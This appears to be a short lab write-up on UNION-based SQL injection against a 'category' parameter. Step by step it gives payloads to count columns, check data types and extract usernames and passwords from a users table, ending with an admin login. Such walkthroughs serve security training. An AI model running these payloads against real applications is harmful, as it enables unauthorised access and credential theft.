

### SQL injection UNION attack, retrieving data from other tables : PRACTITIONER

---

The `category` query parameter is vulnerable to SQL injection.
- We will use a `UNION` based attack.

##### 1. Get the number of columns:
```
' UNION SELECT NULL, NULL--
```
- They are 2, as 3 gets an error.

##### 2. Get the data types
```
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'--
```
- We need strings to get usernames and passwords. Both work, hence both are strings.

##### 3. Perform an Injection

Next use this same payload but choose username and password fields from the users table.
```
' UNION SELECT username, password FROM users--
```



Now we can login as admin and the lab is complete.

---
